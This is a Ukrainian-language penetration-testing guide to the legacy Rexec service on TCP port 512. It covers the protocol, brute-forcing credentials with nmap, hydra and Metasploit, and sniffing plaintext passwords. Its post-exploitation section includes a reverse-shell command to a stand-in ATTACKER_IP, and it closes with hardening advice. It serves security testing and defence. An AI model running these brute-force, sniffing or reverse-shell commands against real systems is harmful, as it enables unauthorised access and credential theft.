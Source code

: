 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Основна інформація

Rexec (віддалений **exec**) є одним з оригінальних сервісів Berkeley *r*-сервісів (разом з `rlogin`, `rsh`, …). Він надає можливість **віддаленого виконання команд**, **автентифіковану лише за допомогою відкритого імені користувача та пароля**. Протокол був визначений на початку 1980-х років (див. RFC 1060) і в даний час вважається **незахищеним за дизайном**. Тим не менш, він все ще увімкнений за замовчуванням у деякому застарілому UNIX / мережевому обладнанні і іноді з'являється під час внутрішніх pentest.

**Порт за замовчуванням:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥  Увесь трафік – включаючи облікові дані – передається **некодованим**. Будь-хто, хто має можливість перехопити мережу, може відновити ім'я користувача, пароль та команду.

### Швидкий огляд протоколу

1. Клієнт підключається до TCP 512.
2. Клієнт надсилає три **NUL-терміновані** рядки:
* номер порту (в ASCII), на якому він бажає отримувати stdout/stderr (часто `0`),
* **ім'я користувача**,
* **пароль**.
3. Надсилається фінальний NUL-термінований рядок з **командою** для виконання.
4. Сервер відповідає єдиним 8-бітним байтом статусу (0 = успіх, `1` = невдача), за яким слідує вихід команди.

Це означає, що ви можете відтворити обмін, використовуючи лише `echo -e` та `nc`:
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
Якщо облікові дані дійсні, ви отримаєте вихід `id` безпосередньо на тому ж з'єднанні.

### Ручне використання з клієнтом

Багато дистрибутивів Linux все ще постачають застарілий клієнт у пакеті **inetutils-rexec** / **rsh-client**:
```bash
rexec -l user -p password <target> "uname -a"
```
Якщо `-p` пропущено, клієнт запитає пароль інтерактивно (видимий в мережі у відкритому тексті!).

---
## Перерахунок та Брутфорс

### [**Брутфорс**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
`rexec-brute` NSE використовує протокол, описаний вище, щоб дуже швидко спробувати облікові дані.

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` має спеціалізований **rexec** модуль і залишається найшвидшим офлайн брутфорсером. `medusa` (`-M REXEC`) та `ncrack` (`rexec` модуль) можуть використовуватися так само.

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
Модуль створить оболонку при успіху та зберігатиме облікові дані в базі даних.

---
## Перехоплення облікових даних

Оскільки все передається у відкритому вигляді, **перехоплення мережі безцінне**. З копією трафіку ви можете витягти облікові дані, не торкаючись цілі:
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wireshark увімкніть *Decode As …​* TCP 512 → REXEC, щоб переглянути красиво розпарсені поля.)

---
## Поради після експлуатації

* Команди виконуються з привілеями наданого користувача. Якщо `/etc/pam.d/rexec` неправильно налаштований (наприклад, `pam_rootok`), іноді можливі root shell.
* Rexec ігнорує оболонку користувача і виконує команду через `/bin/sh -c <cmd>`. Тому ви можете використовувати типові трюки з оболонкою (`;`, ``$( )``, зворотні лапки) для з'єднання кількох команд або створення зворотних shell:
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* Паролі часто зберігаються в **~/.netrc** на інших системах; якщо ви зламаєте один хост, ви можете повторно використовувати їх для бічного переміщення.

---
## Укріплення / Виявлення

* **Не піддавайте rexec**; замініть його на SSH. Практично всі сучасні *inetd* супервізори за замовчуванням коментують цю службу.
* Якщо ви повинні його зберегти, обмежте доступ за допомогою TCP обгорток (`/etc/hosts.allow`) або правил брандмауера та забезпечте надійні паролі для кожного облікового запису.
* Моніторте трафік на :512 та запуски процесу `rexecd`. Один захоплений пакет достатній для виявлення компрометації.
* Вимкніть `rexec`, `rlogin`, `rsh` разом – вони ділять більшість одного й того ж коду та вразливостей.

---

## Посилання

* Документація Nmap NSE `rexec-brute` – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Модуль Rapid7 Metasploit `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
